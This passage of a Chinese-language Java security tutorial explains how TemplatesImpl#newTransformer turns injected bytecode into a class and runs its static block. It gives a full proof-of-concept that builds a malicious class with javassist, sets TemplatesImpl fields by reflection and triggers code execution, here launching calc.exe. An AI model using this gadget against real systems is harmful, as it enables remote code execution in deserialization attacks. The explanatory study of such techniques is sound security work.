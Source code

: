 这里通过 loader.defineClass 的方式将 bytecodes 还原为 Class，接着在外面又调用了`_class[_transletIndex].newInstance`方法实例化还原的Class。此时 static 语句块成功执行。

也就是说，我们可以通过 TemplatesImpl#newTransformer 方法来执行恶意类的 static 语句块。

POC如下：

```java
import javassist.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.ClassLoader;
import java.lang.reflect.Field;

public class javassit_test {
    public static void createPseson() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();

    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
```